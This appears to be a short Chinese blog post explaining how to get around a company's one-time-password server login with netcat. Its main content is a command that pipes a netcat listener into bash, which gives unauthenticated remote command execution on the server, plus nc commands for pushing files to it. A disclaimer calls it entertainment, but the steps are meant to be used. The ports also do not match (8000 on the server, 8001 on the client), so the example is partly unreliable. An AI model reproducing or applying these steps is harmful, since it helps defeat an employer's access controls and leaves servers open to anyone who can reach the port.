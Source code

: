```yaml
---
layout: post
title:  "通过nc来远程跑命令"
date:   2016-05-05 13:36:14 +0800
---
```


公司服务器登陆用了OTP(ont time password), 每次登陆服务器都要输入不同的token, 有些麻烦. 大家讨论有哪些办法可以绕过去. 我想到了nc.

**以下全部没有任何实际价值, 仅供娱乐!**

在服务器上面:

```sh
touch p
tail -0f p | nc -k -l 8000 | bash > p
```

在自己机器上面:

```sh
nc 172.17.0.3 8001
```

**甚至可以传文件!**

先在自己机器上通过nc在服务器运行

    nohup nc -l 8001 > /tmp/a &

然后在自己机器:

    cat 1 | nc 172.17.0.3 8001
